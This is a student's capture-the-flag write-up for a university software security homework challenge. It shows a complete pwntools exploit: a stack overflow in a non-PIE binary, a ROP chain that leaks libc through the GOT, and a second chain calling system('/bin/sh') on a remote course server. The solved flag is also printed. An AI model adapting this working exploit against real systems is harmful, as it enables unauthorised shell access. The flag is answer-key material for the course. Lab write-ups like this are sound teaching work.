# Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "dropped"
- story:  no story :/

## Setup
- setup correct libc
```
docker compose up
docker ps
docker exec -it 229e1a9203d6 /bin/bash
cd /lib/x86_64-linux-gnu
docker cp 229e1a9203d6:/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2 /home/timniklas/Code/software_security_1/homework_02/11_dropped
pwninit
```
- verify that it worked
```
LD_DEBUG=libs ./vuln_patched
```

## Exploit
- the binary has: -fno-stack-protector -no-pie => that means no canarie and no ASLR for the binray
- this is sus
```
volatile unsigned this_may_be_useful = 0xc35ec35f;
```
- I used: https://defuse.ca/online-x86-assembler.htm#disassembly2 to check what instruction this hex string is (stored little endien as: 5fc35ec3)
```
0:  5f                      pop    edi (acutally pop rdi)
1:  c3                      ret
2:  5e                      pop    esi (actually pop rsi)
3:  c3                      ret 
```
- we can write 200 bytes => override return address (no pie)
- the main function looks like:
```
; int __fastcall main(int argc, const char **argv, const char **envp)
public main
main proc near

this_may_be_useful= dword ptr -2Ch
buf= byte ptr -28h

; __unwind {
sub     rsp, 38h
mov     edx, 19h        ; n
mov     edi, 1          ; fd
lea     rsi, aHelloWhatSYour ; "Hello, what's your name?\n"
mov     [rsp+38h+this_may_be_useful], 0C35EC35Fh
call    _write                                      <-- jump back here
lea     rsi, [rsp+38h+buf] ; buf
mov     edx, 0C8h       ; nbytes
xor     edi, edi        ; fd
call    _read
xor     eax, eax
add     rsp, 38h
retn
; } // starts at 401050
main endp
```
- main idea: build simple rob chain that allows to call write with a pointer to the .got => writes interprets .got entry as pointer to buffer => we write the address of a libc function => we get the aslr offset leaked. Then program logic allows us to write into buffer again and lets us write 2nd ropchain.
- code:
```python
#!/usr/bin/env python3

import pwn

exe = pwn.ELF("./vuln_patched")
libc = pwn.ELF("./libc.so.6")
ld = pwn.ELF("./ld-linux-x86-64.so.2")

pwn.context.arch = 'amd64'
#pwn.context.binary = exe

conn = pwn.remote('tasks.ws24.softsec.rub.de', 33311)
#conn = pwn.process([exe.path])

#pwn.gdb.attach(conn)

# start here

# got via: ropper --file ./vuln_patched
address_g1 = 0x0000000000401069 # pop rdi; ret;
address_g2 = 0x000000000040106b # pop rsi; ret; 
address_of_write_in_main = 0x40106D # write

got_address_write = 0x0000000000403FE0 

rop_chain = [
    b'A'*0x28,
    pwn.p64(address_g1),
    pwn.p64(0x1),
    pwn.p64(address_g2),
    pwn.p64(got_address_write),
    pwn.p64(address_of_write_in_main)
]

rop_chain = b''.join(gadget for gadget in rop_chain)


conn.recvline(b'Hello, what\'s your name?')

conn.sendline(rop_chain)
pointer_to_libc_write = pwn.unpack(conn.recv(numb=8))

base_address_libc = pointer_to_libc_write - libc.symbols['write']
print(f'address of write = {hex(pointer_to_libc_write)}')
print(f'base address of libc = {hex(base_address_libc)}')

# now we are back at write and can overrite the stack again!

address_system = base_address_libc + libc.symbols['system']
address_string_bin_sh = base_address_libc + next(libc.search(b'/bin/sh\x00'))

rop = pwn.ROP(libc)
rop.raw(base_address_libc + rop.find_gadget(['ret']).address)
rop.raw(base_address_libc + rop.find_gadget(['pop rdi', 'ret']).address)
rop.raw(base_address_libc + next(libc.search(b'/bin/sh\x00')))
rop.raw(base_address_libc + libc.symbols['system'])

payload = b'A'*(0x28) + rop.chain()

#conn.sendline(b'A'*8 + b'B'*8 + b'C'*8 + b'D'*8 + b'E'*8 + b'F'*8 + b'G'*8 + b'H'*8 + b'I'*8 + b'J'*8 + b'K'*8 + b'L'*8 + b'M'*8)
conn.sendline(payload)

conn.interactive()
exit()
```
- flag
```
softsec{plF07b0E3fYRJgFmAKkeStW7QaTZx6xwHAeyfnS6W_xB5uknu_iORKxdMiJLccCC}
```